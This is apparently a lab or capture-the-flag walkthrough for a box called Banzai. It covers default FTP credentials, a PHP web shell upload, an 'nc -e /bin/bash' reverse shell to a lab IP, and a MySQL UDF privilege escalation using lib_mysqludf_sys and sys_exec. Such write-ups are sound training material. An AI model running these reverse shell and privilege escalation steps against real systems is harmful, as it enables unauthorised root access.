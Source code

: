 # Banzai

### Enumeration

```
21/tcp   open   ftp        vsftpd 3.0.3
8295/tcp open   http       Apache httpd 2.4.25 ((Debian))
```

FTP -> admin:admin -> Webroot directory

[https://www.revshells.com/](https://www.revshells.com) - PHP cmd -> FTP Upload

### Initial Access

Execute this command on php cmd: `nc -e /bin/bash 192.168.49.153 8080`

### PrivEsc

```
www-data@banzai:/var/www$ cat config.php
cat config.php
<?php
define('DBHOST', '127.0.0.1');
define('DBUSER', 'root');
define('DBPASS', '[REDACTED]');
define('DBNAME', 'main');
```

mysql service is running with root privileges

```
$ cp /usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.so .
```

FTP Upload - this file.

```
www-data@banzai:/var/www$ mysql -u root -p

mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/var/www/html/lib_mysqludf_sys_64.so'));
# Look for the value of plugin_dir
mysql> show variables like '%plugin%';
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys_64.so';
mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys_64.so';
mysql> select * from mysql.func;
+----------+-----+------------------------+----------+
| name     | ret | dl                     | type     |
+----------+-----+------------------------+----------+
| sys_exec |   2 | lib_mysqludf_sys_64.so | function |
+----------+-----+------------------------+----------+
1 row in set (0.00 sec)

mysql> select sys_exec('nc -e /bin/bash 192.168.49.153 8080');
```
